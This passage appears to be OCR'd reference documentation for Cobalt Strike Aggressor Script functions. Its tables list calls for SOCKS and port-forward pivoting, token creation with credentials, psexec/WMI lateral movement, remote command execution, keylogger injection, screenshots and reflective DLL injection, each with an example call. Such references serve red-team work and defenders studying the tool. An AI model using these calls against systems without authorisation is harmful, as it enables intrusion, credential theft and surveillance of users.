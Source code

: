 | `&brportfwd_local(...)`               | `$bid, $bindport, $fwdhost, $fwdport`                  | Sets up a reverse port forward, tunneled through the *client*.                                                          | `brportfwd_local($bid, 8080, "192.168.1.1", 80);`                                      |
| `&brportfwd_stop($bid, $port)`          | `$bid, $port`                                           | Stops a reverse port forward.                                                                                                   |`brportfwd_stop($bid, 8080);`|
| `&bsocks($bid, $port)`                 |`$bid, $port`| Start SOCKS server.|`bsocks($bid,1080);`|
| `&bsocks_stop($bid)`                 |`$bid`|Stop SOCKS servers associated with specified Beacon.| `bsocks_stop($bid)`|
| `&bcovertvpn($bid, $iface, $ip, $mac?);` | `$bid, $iface, $ip, $mac`                           | Deploys a Covert VPN client.                                                                                           | `bcovertvpn($bid, "eth0", "192.168.1.1");`                                             |
|`bnet($bid, $command, $target?, $parameter?, $pid?, $arch?)`| `$bid, $command, $target?, $parameter?, $pid?, $arch?`|Run commands from the Beacon's network and host enumeration tool.|`bnet($bid,"localgroup",$target,"Administrators")`|
|`&bipconfig($bid, &callback)`| `$bid, &callback`|Get the network interfaces|`bipconfig($1, {blog($1, "IPConfig results: $+ $2");});`|

### Credential Access

| Function                          | Arguments                                      | Description                                                                                 | Example                                                                |
| :-------------------------------- | :--------------------------------------------- | :------------------------------------------------------------------------------------------ | :--------------------------------------------------------------------- |
| `&bloginuser(...)`             | `$bid, $domain, $user, $pass`                  | Creates a token for the specified user. Same as `make_token`.                                   | `bloginuser($bid, "DOMAIN", "user", "password");`                         |

### Lateral Movement

| Function                          | Arguments                                                                          | Description                                                                                                                                                                 | Example                                                                                          |
| :-------------------------------- | :--------------------------------------------------------------------------------- | :-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | :----------------------------------------------------------------------------------------------- |
| `&bjump($bid, $method, $target, $listener);` | `$bid, $method, $target, $listener`                                           | Spawns a session on a remote target using a specified method (e.g., "psexec", "winrm").                                                                           | `bjump($bid, "psexec", "192.168.1.100", "my_listener");`                                        |
| `&bremote_exec(...)`              | `$bid, $method, $target, $command`                                                | Executes a command on a remote target.  Different methods are available (e.g., "wmi", "psexec").                                                                         | `bremote_exec($bid, "wmi", "192.168.1.100", "whoami");`                                          |
|`bpsexec_command($bid, $target, $servicename, $command)`|`$bid, $target, $servicename, $command`|Run command on remote host. Create service on remote hosts, start it, and clean it up| `bpsexec_command($1, "172.16.48.3", "ADMIN$\\foo.exe", "foo");` |

### Post-Exploitation Jobs (Fork&Run)

These commands spawn a temporary process and inject a capability into it.  This is often referred to as the "fork & run" pattern.

| Function             | Arguments                                    | Description                                                                                                                         | Example                                                                              |
| :------------------- | :------------------------------------------- | :---------------------------------------------------------------------------------------------------------------------------------- | :----------------------------------------------------------------------------------- |
| `&bkeylogger(...)` | `$bid, $pid?, $arch?`                        | Injects a keylogger. Can target a specific process or spawn a temporary one.                                                       | `bkeylogger($bid, 1234, "x86");`  or `bkeylogger($bid);`                              |
| `&bscreenshot(...)`| `$bid, $pid?, $arch?`                        | Takes a screenshot. Can target a specific process or spawn a temporary one.                                                      | `bscreenshot($bid, 1234, "x64");` or `bscreenshot($bid);`                           |
|`bscreenwatch($bid,$pid?,$arch?)`|`$bid,$pid?,$arch?`|Take screenshots periodically|`bscreenwatch($bid, 1234, "x64");` or  ``bscreenwatch($bid);`` |
| `&bdllspawn(...)`   | `$bid, $dllpath, $param, $desc, $blocktime` | Spawns a temporary process and injects a Reflective DLL.  *$blocktime is deprecated*                                                | `bdllspawn($bid, script_resource("mydll.dll"), "arg", "My DLL", 5000);`             |